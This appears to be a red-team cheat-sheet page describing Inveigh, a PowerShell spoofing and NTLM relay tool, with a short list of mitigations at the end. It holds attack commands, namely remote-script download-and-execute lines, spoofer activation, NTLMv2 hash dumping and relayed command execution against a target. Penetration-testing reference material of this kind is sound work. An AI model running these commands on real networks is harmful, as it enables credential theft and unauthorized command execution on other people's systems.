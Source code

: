 [Inveigh](https://github.com/Kevin-Robertson/Inveigh) is a PowerShell ADIDNS/LLMNR/NBNS/mDNS/DNS spoofer and man-in-the-middle tool designed to assist penetration testers/red teamers that find themselves limited to a Windows system.

At its core, Inveigh is a .NET packet sniffer that listens for and responds to LLMNR/mDNS/NBNS/DNS requests while also capturing incoming NTLMv1/NTLMv2 authentication attempts over the Windows SMB service.

Since the .NET packet sniffer **requires elevated privilege**, Inveigh also contains UDP listener based LLMNR/mDNS/NBNS/DNS functions.

By default, Inveigh will attempt to detect the privilege level and load the corresponding functions.

Inveigh provides NTLMv1/NTLMv2 HTTP/HTTPS/Proxy to SMB2.1 relay through the Inveigh Relay module. This module does not require elevated privilege, again with the exception of HTTPS, on the Inveigh host.

```powershell
# Load into memory using Invoke-Expression
IEX (New-Object Net.WebClient).DownloadString("http://SERVER/Inveigh.ps1")
IEX (New-Object Net.WebClient).DownloadString("http://SERVER/Inveigh-Relay.ps1")
# Enable inspection only and real time console output
Invoke-Inveigh -Inspect -ConsoleOutput Y
# Enable the NBNS and mDNS spoofers
Invoke-Inveigh -NBNS Y -mDNS Y
# Get all captured NTLMv2 challenge/response hashes
Get-Inveigh -NTLMv2
# Invoke a command on a given target 
Invoke-InveighRelay -ConsoleOutput Y -StatusOutput N -Target TARGET_IP -Command "COMMAND" -Attack Enumerate,Execute,Session
```

https://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Allow as less as possible any NTLM authentication to occur on the network
- *Architecture*: Enable SMB signing on all devices that are capables of supporting this feature in order to allows the devices to conform the point of origin and authenticity of each SMB packet. (This can cause performance issue)
